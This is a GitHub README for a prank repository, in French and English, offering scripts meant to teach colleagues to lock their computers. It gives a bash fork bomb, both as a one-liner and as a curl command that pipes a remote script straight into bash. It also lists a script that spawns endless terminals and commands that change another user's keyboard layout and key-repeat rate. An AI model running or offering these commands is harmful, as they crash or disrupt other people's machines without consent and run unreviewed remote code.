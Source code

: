 # Lock-ton-pc
quelque script pour apprendre à ses collègues à fermer leur session.

## Forkbomb

Denial of service attack wherein a process continually replicates ifself to deplete available system recources, slowding down or crashing the system.

get the content and execute the script :

```
curl https://raw.githubusercontent.com/wagnerwave/Lock-ton-pc/master/forkbomb.sh | bash -

```

or excute on a terminal :

```
:(){ :|:& };:

```

## Terminal Monster

Opens terminal at infinity. [work with gnome-terminal]

```
chmod +x Terminal-Monster.sh
./Terminal-Monster.sh
```

## Bépo cancer

Change your keyboard to bépo keyboard.

```
setxkbmap fr bepo
```
or :
```
 loadkeys fr-bepo
```

## Sanic Keyboard

Gotta go fast

```
xset r rate 1 220
```
